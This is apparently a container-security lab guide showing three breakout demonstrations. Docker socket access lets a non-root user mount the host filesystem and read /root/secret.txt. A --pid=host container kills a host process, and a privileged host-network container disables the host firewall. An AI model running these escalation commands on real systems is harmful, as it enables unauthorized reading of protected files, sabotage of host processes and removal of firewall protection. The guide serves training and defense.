 ## Container Breakout - Multiple Attacks

### Volume Mounts

* ssh into the container virtual lab or open Terminal in the VM

    ```
    ssh root@<IPAddrGivenToYou>
    password: <passwordGivenToYou>

    ```

* Run `whoami` to confirm that you are the `root` user.

```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Validate that there's a secrets file in the root dir with `cat secret.txt`

* Run `sudo su we45` to login as a normal user.

    ```commandline
    root@we45:~# sudo su we45
    we45@we45:~$
    ```

* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

    ```commandline
    we45@we45:~$ docker images
    we45@we45:~$ docker ps
    ```

* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Run `docker run -ti --rm -v /root:/hostFS/ alpine sh` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #
```

* Run `cat /hostFS/secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
This is a secret
```

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```


* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

### PID Boundary

* Run `tmux` to create a multiplexed terminal. Your screen should have a band below that looks like this:

![](img/tmux-greenband.png)

* Now, type `ctrl + b + Shift+"` to split panes horizontally. We're going to operate on two panes

![](img/split_pane.png)

* Let's first operate on the top pane, with the command `ctrl + b + (upper arrow key)`
* Let's first create our "super important process" with the following commands: 
    ```
    command='while true\ndo\necho "Super important process running"\nsleep 3\ndone'
    echo "$command" > /root/super_important_process.sh && chmod +x /root/super_important_process.sh
    ```

* Now, run our program `./root/super_important_process.sh`. It should start running a "super important" process
* Let's operate on the lower pane with `ctrl + b + (lower arrow key)`
* Here, run `docker run -ti --pid=host alpine sh`
* Now run `ps aux` and look at the process tree. You will see that your container's processes and the host's processes have NOT been isolated
* Now run `ps aux | grep 'super'` to triangulate the super_important process. get the `pid` of the process
* now run `kill <pid>` and you will see that the super important process (running on host) is now terminated.

![](img/terminate_process.png)

* Let's dismantle the multiplexed terminal session, with `ctrl + b + x`, you will be presented with a prompt like this:

![](img/remove_tmux.png)

* press `y` to select `yes` and the window shuts down. Do the same with the other tmux session as well

### Host Network

* Check if `ufw` is enabled on the host machine by running `ufw status`

```commandline
root@we45:~# ufw status
Status: inactive
```

* Enable `ufw` by running `ufw enable` and `ufw allow ssh`

* Run `docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask`

```
docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
WARNING: Published ports are discarded when using host network mode
de08041d12e0ed8f4aa0ee3ceeef65c760baee2b9d1c839a89d5ba642a506d03
```

* Now run `docker ps` and copy the `CONTAINER_ID` of the running container

```
[root@container-training-centos ~]# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
de08041d12e0        abhaybhargav/vul_flask   "python app.py"     3 seconds ago       Up 2 seconds                            dreamy_ptolemy
```

* Now run `docker exec -it <container ID> /bin/bash` you should now be in the shell environment in the container

* Run `apt update && apt install -y ufw` to install the firewall program

* Run `ufw status` and you should see that the firewall is active.

* Now run `ufw disable` to disable the firewall from the Container

* Run `exit` to exit the docker shell and run `clean-docker`
